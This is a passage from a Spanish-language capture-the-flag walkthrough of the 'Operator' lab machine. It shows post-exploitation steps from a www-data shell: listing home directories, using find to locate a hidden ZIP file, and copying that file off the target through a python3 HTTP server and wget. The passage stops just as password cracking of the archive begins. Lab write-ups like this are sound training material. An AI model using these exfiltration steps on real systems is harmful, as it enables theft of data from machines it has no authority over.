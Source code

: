 Encontraremos el directorio de ese usuario en el directorio `/home`:
```bash
www-data@TheHackersLabs-Operator:/var/www/html$ ls -la /home
total 16
drwxr-xr-x  3 root      root      4096 Aug 19 21:49 .
drwxr-xr-x 23 root      root      4096 Aug  7 02:36 ..
-rw-r--r--  1 root      root        66 Aug 19 21:49 Readme.txt
drwxr-x---  5 operatorx operatorx 4096 Aug  8 17:43 operatorx
```
Sin querer, encontramos un archivo de texto.

Leámoslo:
```bash
www-data@TheHackersLabs-Operator:/var/www/html$ cat /home/Readme.txt 
He guardado mi archivo zip más importante en un lugar secreto.
```
Nos han dado una pista sobre un **archivo ZIP** oculto.

Podemos usar el comando **find** para buscar solo **archivos ZIP** en toda la máquina:
```bash
www-data@TheHackersLabs-Operator:/var/www/html$ find / -type f -name "*.zip"
find: '/etc/credstore.encrypted': Permission denied
find: '/etc/multipath': Permission denied
find: '/etc/ssl/private': Permission denied
...
find: '/boot/lost+found': Permission denied
/srv/secret/File.zip
find: '/lost+found': Permission denied
find: '/root': Permission denied
```
Encontramos un **archivo ZIP**.

Mandémoslo a nuestra máquina usando un servidor de **python3**.

Entra a ese directorio y levanta el servidor:
```bash
www-data@TheHackersLabs-Operator:/var/www/html$ cd /srv/secret/
www-data@TheHackersLabs-Operator:/srv/secret$ which python3
/usr/bin/python3
www-data@TheHackersLabs-Operator:/srv/secret$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Usa **wget** para descargar el **archivo ZIP** en tu máquina:
```bash
wget http://192.168.100.160:8080/File.zip
```
Intentemos descomprimirlo.

<br>

<h2 id="Cracking">Crackeando Archivo ZIP y Contraseña Codificada en MD5 de Usuario operatorx</h2>

Al intentar descomprimir este archivo, nos pedirá una contraseña:
```bash
7z x File.zip

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=es_MX.UTF-8 Threads:6 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 430 bytes (1 KiB)

Extracting archive: File.zip
--
Path = File.zip
Type = zip
Physical Size = 430

```